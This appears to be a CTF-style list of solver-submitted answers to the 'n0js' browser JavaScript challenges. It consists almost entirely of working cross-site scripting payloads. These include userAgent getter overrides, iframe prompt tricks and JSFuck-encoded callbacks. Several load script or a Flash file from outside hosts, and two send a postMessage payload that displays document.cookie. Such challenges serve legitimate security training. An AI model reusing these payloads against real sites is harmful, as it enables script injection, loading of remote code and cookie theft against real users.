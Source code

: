 # n0js Challenges

[http://server.n0tr00t.com/n0js/case1.html](http://server.n0tr00t.com/n0js/case1.html)

	#### @Nearg1e [yourneargo@gmail.com]
	- http://server.n0tr00t.com/n0js/case1_writeup.txt

[http://server.n0tr00t.com/n0js/case2.html](http://server.n0tr00t.com/n0js/case2.html)

	#### @fyth
    - case2.html?a=location.hash.substr(1)#setTimeout("hi.eval('prompt(location.href)')",500)
    - case2.html?a=location.hash.substr(1)#navigator.__defineGetter__('userAgent', function(){ return '<svg/onload=prompt(location.href)>'})

	#### @evi1m0

    - case2.html?a=location.hash.substr(1)#var frame = document.createElement('iframe');
      frame.style.display = 'none'; document.body.appendChild(frame);
      function navigator(){} window.navigator = new Proxy(window.frames[0].window.navigator,
      { get: function(n0t){return "<img src=@ onerror=alert(location.href)>";} })
      
	#### 1124696276

    - case2.html?a=location.hash.substr(1)#function createProperty(value){var _value=value;function _get(){return _value}function _set(v){_value=v}return{"get":_get,"set":_set}};
      function makePropertyWritable(objBase,objScopeName,propName,initValue){var newProp,initObj;if(objBase&&objScopeName in objBase&&propName in objBase[objScopeName])
      {if(typeof initValue==="undefined"){initValue=objBase[objScopeName][propName]}
	  newProp=createProperty(initValue);try{Object.defineProperty(objBase[objScopeName],propName,newProp)}
      catch(e){initObj={};initObj[propName]=newProp;
      try{objBase[objScopeName]=Object.create(objBase[objScopeName],initObj)}catch(e){}}}};
      makePropertyWritable(window,"navigator","userAgent");
      window.navigator.userAgent="<script>prompt(location.href)</script>";
    
	#### @gaoheby
	- case2.html?a=window.location.hash.substring(1)#Object.defineProperty(navigator,'userAgent',
	  {get:function(){return '<script>prompt(location.href)</script>';}})
    
	#### Cnlouds
	- case2.html?test=location.hash.substr(1)#window.addEventListener('load', function(){window.hi.prompt(hi.location.href)});

	#### kaotudou [jianshu.com/p/eb22e86635e0]
	- case2.html?1=eval((window.location.search.substring(49)));
      =var/**/script=document.createElement`script`;script.src=`https://
      ctf.f4ck0.com/1.js`;document.body.appendChild(script);

[http://server.n0tr00t.com/n0js/case3.php](http://server.n0tr00t.com/n0js/case3.php)

	#### @Nearg1e [yourneargo@gmail.com]
	- case3.php?2017=%3Cobject%20allowscriptaccess=always%3E%20%3Cparam%20name=url%20value=http://tangzi.info:43992/payload/n0js_case3.swf%3E
	- AS3 Script:
	    package {
	        import flash.*;
	        import flash.net.*;
	
	        public class XSS {
	
	            public function XSS():void{
	            }
	            public static function main():void{
	                Lib.getURL(new URLRequest("javascript:a=document.createElement('iframe');a.src='https://www.n0tr00t.com/static/test/helloevent.html';document.body.appendChild(a);setTimeout(function(){window.frames[0].postMessage('<img src=1 onerror=prompt(document.cookie)>','*')},3000);"), "_top");
	            }
	
	        }
	    }
	    
	#### daocaoren [jkme.github.io/n0js-case3.html]
	- case3.php?2017=%3Csvg%3E%3Cset+href%3d%23script+attributeName%3dhref+to%3ddata%3a%2cs%3ddocument.createElement(%22script%22)
	  %3bs.src%3d%22http%3a%2f%2f45.32.138.203%2f2.js%22%3bdocument.body.appendChild(s)%3b+%2f%3E%3Cscript+id%3dscript+src%3dfoo%3E%3C%2fscript%3E+
	- jssource:
	    var t = document.createElement("iframe");
	    t.setAttribute("src","https://www.n0tr00t.com/static/test/helloevent.html");
	    document.body.appendChild(t);
	
	    function a(){
	        var b = document.createElement("button");
	        b.setAttribute("onclick","frames[0].postMessage('<img src=x onerror=alert(document.cookie)>','*')");
	        b.click();
	    }
	    //setTimeout("a()",3000);
	    window.onload = a();
	    
[http://server.n0tr00t.com/n0js/case4.php](http://server.n0tr00t.com/n0js/case4.php)
	
	#### @woto [woto3679@gmail.com]
	- case4.php?x=d=document;D=Document.prototype;D.appendChild.call(d.body,(D.createElement.call(d,%22iframe%22))).contentWindow.prompt.call(window,location);
	
	#### @evi1m0 [evi1m0.bat@gmail.com]
	- case4.php?x=document.writeln(%27%3Ciframe%3E%27);frames[0].prompt(location)

	#### @Nearg1e [yourneargo@gmail.com]
	- case4.php?x=document.writeln(%22%3Ciframe%3E%3C/iframe%3E%22);let%20f=document.querySelector(%27iframe%27);f.contentWindow.prompt(location);
	
	#### @math1as [ma7h1as.l@gmail.com]
	- case4.php?x=document.body.innerHTML=%27%3Ciframe%20id=%22a%22%20/%3E%27;a.contentWindow.prompt(location)

[http://server.n0tr00t.com/n0js/case5.php](http://server.n0tr00t.com/n0js/case5.php)

	#### @Nearg1e [yourneargo@gmail.com]
	- case5.php?x=<script type="text/javascript" src=case5-time.php?callback=[][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]][([][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]])[%252B!%252B[]%252B[%252B[]]]%252B([][[]]%252B[])[%252B!%252B[]]%252B(![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[%252B!%252B[]]%252B([][[]]%252B[])[%252B[]]%252B([][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[][(![]%252B[])[%252B[]]%252B([![]]%252B[][[]])[%252B!%252B[]%252B[%252B[]]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]])[%252B!%252B[]%252B[%252B[]]]%252B(!![]%252B[])[%252B!%252B[]]]((![]%252B[])[%252B!%252B[]]%252B(![]%252B[])[!%252B[]%252B!%252B[]]%252B(!![]%252B[])[!%252B[]%252B!%252B[]%252B!%252B[]]%252B(!![]%252B[])[%252B!%252B[]]%252B(!![]%252B[])[%252B[]]%252B'(1)')()>

	#### fubb[at]unseen.is
	- case5.php?x=%3Cscript%20src=%27case5-time.php?callback=[][%22%5C155%5C141%5C160%22][%22%5C143%5C157%5C156%5C163%5C164%5C162%5C165%5C143%5C164%5C157%5C162%22](%22%5C141%5C154%5C145%5C162%5C164%5C50%5C61%5C51%22)%27%3E

[http://server.n0tr00t.com/n0js/case6.php](http://server.n0tr00t.com/n0js/case6.php)
